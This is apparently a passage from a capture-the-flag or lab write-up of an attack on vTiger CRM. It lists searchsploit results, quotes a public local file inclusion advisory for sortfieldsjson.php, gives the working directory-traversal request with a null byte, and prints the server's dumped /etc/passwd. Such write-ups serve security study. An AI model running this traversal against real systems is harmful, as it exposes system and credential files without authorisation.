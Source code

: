 ```
vTiger CRM 5.4.0 - 'index.php?onlyforuser' SQL Injection                  | exploits/php/webapps/28409.txt
vTiger CRM 5.4.0 SOAP - AddEmailAttachment Arbitrary File Upload (Metaspl | exploits/php/remote/30787.rb
vTiger CRM 5.4.0 SOAP - Multiple Vulnerabilities                          | exploits/php/webapps/27279.txt
vTiger CRM 5.4.0/6.0 RC/6.0.0 GA - 'browse.php' Local File Inclusion      | exploits/php/webapps/32213.txt

```

<h3>LFI</h3>

`searchsploit -x 18770` lets us read the chosen file...

```

# Exploit Title: VTiger CRM
# Google Dork: None
# Date: 20/03/2012
# Author: Pi3rrot
# Software Link: http://sourceforge.net/projects/vtigercrm/files/vtiger%20CRM%205.1.0/
# Version: 5.1.0
# Tested on: CentOS 6
# CVE : none

We have find this vulnerabilitie in VTiger 5.1.0
In this example, you can see a Local file Inclusion in the file sortfieldsjson.php

Try this :
https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00

```


The Local File Inclusion appears to be the way to go here, the following attempt works.

```

/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00

```

```

root:x:0:0:root:/root:/bin/bash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/spool/mail:/sbin/nologin news:x:9:13:news:/etc/news: uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin games:x:12:100:games:/usr/games:/sbin/nologin gopher:x:13:30:gopher:/var/gopher:/sbin/nologin ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin nobody:x:99:99:Nobody:/:/sbin/nologin mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash distcache:x:94:94:Distcache:/:/sbin/nologin vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin pcap:x:77:77::/var/arpwatch:/sbin/nologin ntp:x:38:38::/etc/ntp:/sbin/nologin cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash dbus:x:81:81:System message bus:/:/sbin/nologin apache:x:48:48:Apache:/var/www:/sbin/nologin mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin postfix:x:89:89::/var/spool/postfix:/sbin/nologin asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin spamfilter:x:500:500::/home/spamfilter:/bin/bash haldaemon:x:68:68:HAL daemon:/:/sbin/nologin xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin fanis:x:501:501::/home/fanis:/bin/bash 

```
